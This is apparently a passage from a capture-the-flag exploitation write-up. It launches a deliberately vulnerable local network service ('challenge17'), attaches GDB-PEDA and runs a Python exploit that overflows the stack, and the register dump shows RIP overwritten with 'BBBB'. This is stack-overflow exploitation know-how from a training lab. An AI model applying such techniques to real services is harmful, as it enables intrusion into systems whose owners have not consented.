 Start the process, and attach GDB, set follow-child mode, continue:
```
root@hlUbuntu64:~/challenges/challenge17# ./challenge17 &
[1] 5918
root@hlUbuntu64:~/challenges/challenge17# Listen on port: 5002

root@hlUbuntu64:~# gdb -q
gdb-peda$ attach 5918
Attaching to process 5918
[...]

gdb-peda$ set follow-fork-mode child
gdb-peda$ c
Continuing.
```

Try the exploit above:
```
root@hlUbuntu64:~/challenges/challenge17# python exp-challenge17.py
[*] '/root/challenges/challenge17/challenge17'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[+] Opening connection to localhost on port 5002: Done
Press:
  0   To quit
  1   To stack overflow
>
How many bytes do you want to read?

>
Ok, i'll read 156 bytes
Input string:
>
[*] Closed connection to localhost port 5002
```

It should produce the following result:
```
[----------------------------------registers-----------------------------------]
RAX: 0x15
RBX: 0x0
RCX: 0x7fda643c0ca0 --> 0x4042800000000
RDX: 0x0
RSI: 0xfbadac44
RDI: 0x7ffe56d23960 --> 0xfbadac44
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffe56d23d40 --> 0x7ffe56d23da0 --> 0x7ffe56d23f10 --> 0x400e20 (<__libc_csu_init>:	push   r15)
RIP: 0x42424242 ('BBBB')
R8 : 0x0
R9 : 0x1
R10: 0x0
R11: 0x246
R12: 0x400940 (<_start>:	xor    ebp,ebp)
R13: 0x7ffe56d23ff0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
```